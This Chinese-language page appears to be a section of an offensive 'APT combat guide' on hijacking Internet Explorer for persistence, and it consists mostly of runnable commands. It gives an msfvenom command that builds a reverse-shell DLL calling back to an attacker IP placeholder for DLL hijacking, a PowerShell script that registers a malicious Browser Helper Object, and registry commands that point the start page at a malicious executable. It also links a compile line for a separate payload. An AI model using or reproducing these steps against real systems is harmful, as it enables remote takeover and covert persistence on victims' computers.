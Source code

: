 ### IE浏览器劫持

1、浏览器DLL劫持

```Bash
dir /b /s DLL文件名
```

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=攻击者IP地址 LPORT=4444 -f dll > suspend.dll
```

2、浏览器辅助对象劫持

```powershell
创建BHO的注册表项
$BHO_GUID = "{12345678-1234-1234-1234-1234567890AB}"
# 恶意DLL路径地址
$BHO_Path = "C:\Users\Administrator\Desktop\test\malicious\pre\wolf.dll"

# 注册BHO
New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects\$BHO_GUID" -Force
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects\$BHO_GUID" -Name "Default" -Value "Malicious BHO"

# 注册BHO的CLSID
New-Item -Path "HKEY_CLASSES_ROOT\CLSID\$BHO_GUID" -Force
Set-ItemProperty -Path "HKEY_CLASSES_ROOT\CLSID\$BHO_GUID" -Name "InprocServer32" -Value $BHO_Path
Set-ItemProperty -Path "HKEY_CLASSES_ROOT\CLSID\$BHO_GUID\InprocServer32" -Name "ThreadingModel" -Value "Apartment"
```

```powershell
Get-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects\*"
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects\注册的BHO_GUID" -Force
Remove-Item -Path "HKCR:\CLSID\注册的BHO_GUID" -Force
```

3、修改启动页面

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main" /v "Start Page" /t REG_SZ /d "file://恶意可执行程序" /f
reg query "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Internet Explorer\Main" /s
reg add "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main" /v "Start Page" /t REG_SZ /d "about:blank" /f
```

### 网络配置

[edge.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/edge.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 edge.cpp -o edge.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
